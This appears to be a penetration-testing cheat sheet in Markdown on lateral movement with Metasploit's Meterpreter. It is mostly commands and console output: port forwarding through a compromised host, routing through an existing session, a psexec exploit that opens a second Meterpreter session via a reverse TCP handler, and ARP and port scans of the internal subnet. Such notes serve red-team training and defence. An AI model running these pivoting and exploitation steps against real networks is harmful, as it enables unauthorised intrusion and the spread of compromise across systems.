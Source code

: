 ## Lateral Movement

### Meterpreter Pivoting

#### Forwarding

```
 [Attacker]     [Compromised]    [Target]
96.97.98.99 --> 10.10.10.11 --> 10.10.10.100
```

On 10.10.10.11, something like local port forwarding, `96.97.98.99:8000` --> `10.10.10.100:80`

```
meterpreter > portfwd add -l 8000 -r 10.10.10.100 -p 80
```

#### Routing

Telling Metasploit to use the session already established to the pivot point, as a gateway, to access whatever it specifies (i.e., 10.10.10.0/24).

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/smb/psexec) > route add 10.10.10.0/24 1
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.100
msf5 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.10.100:4444
[*] 10.10.10.11:445 - Selecting PowerShell target
[*] 10.10.10.11:445 - Executing the payload...
[+] 10.10.10.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (180291 bytes) to 10.10.10.100
[*] Meterpreter session 2 opened (10.10.10.100:4444 -> 10.10.10.11:1622) at 2020-01-24 11:45:31 +0000
meterpreter >
```

#### Port scanning on a routed session

After pivotting, we do recon 

```
meterpreter > run arp_scanner -r 10.10.10.0/24
[*] ARP Scanning 10.10.10.0/24
[*] IP: 10.10.10.1 MAC 00:50:56:c0:00:08
[*] IP: 10.10.10.11 MAC 00:0c:29:76:53:e7
[*] IP: 10.10.10.100 MAC 00:0c:29:76:8a:75
meterpreter > background
msf5 exploit(windows/smb/psexec) > route add 10.10.10.0/24 1
msf5 exploit(windows/smb/psexec) > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.1,11,100
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 22,25,80,135,445,631
msf5 auxiliary(scanner/portscan/tcp) > run
[+] 10.10.10.1: - 10.10.10.1:22 - TCP OPEN
[*] 10.10.10.1,11,100: - Scanned 1 of 3 hosts (33% complete)
[+] 10.10.10.11: - 10.10.10.11:135 - TCP OPEN
[+] 10.10.10.11: - 10.10.10.11:445 - TCP OPEN
[*] 10.10.10.1,11,100: - Scanned 2 of 3 hosts (66% complete)
```

